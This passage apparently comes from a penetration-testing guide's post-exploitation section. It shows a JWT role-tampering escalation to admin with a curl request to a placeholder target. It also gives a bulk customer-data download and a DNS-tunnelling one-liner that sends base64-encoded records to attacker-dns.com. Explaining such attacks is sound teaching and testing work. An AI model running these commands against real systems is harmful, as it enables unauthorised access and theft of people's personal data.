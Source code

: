 ### Phase 4: Post-Exploitation

**Privilege Escalation Example:**

**Regular User → Admin Escalation:**
```javascript
// Exploit: Modify JWT token to gain admin privileges

// Original JWT payload (decoded)
{
  "sub": "user123",
  "role": "user",
  "iat": 1633024800
}

// Modified payload (attacker changes role)
{
  "sub": "user123",
  "role": "admin",  // Changed from "user"
  "iat": 1633024800
}

// If JWT signature not validated properly, this works!
curl -H "Authorization: Bearer [MODIFIED_TOKEN]" \
  https://api.target.com/admin/users
```

**Result:**
```
 Privilege escalation successful!
Regular user now has admin access to:
- All user management endpoints
- System configuration
- Sensitive reports
- Database backups
```

**Data Exfiltration Simulation:**
```bash
# Download entire customer database
curl -H "Authorization: Bearer [ADMIN_TOKEN]" \
  https://api.target.com/export/customers \
  -o customers_database.csv

# Size: 500MB (250,000 records)
# Includes: Names, emails, addresses, purchase history

# Exfiltrate via DNS tunneling (bypass firewall)
cat customers_database.csv | base64 | \
  while read line; do
    nslookup $line.attacker-dns.com
  done
```
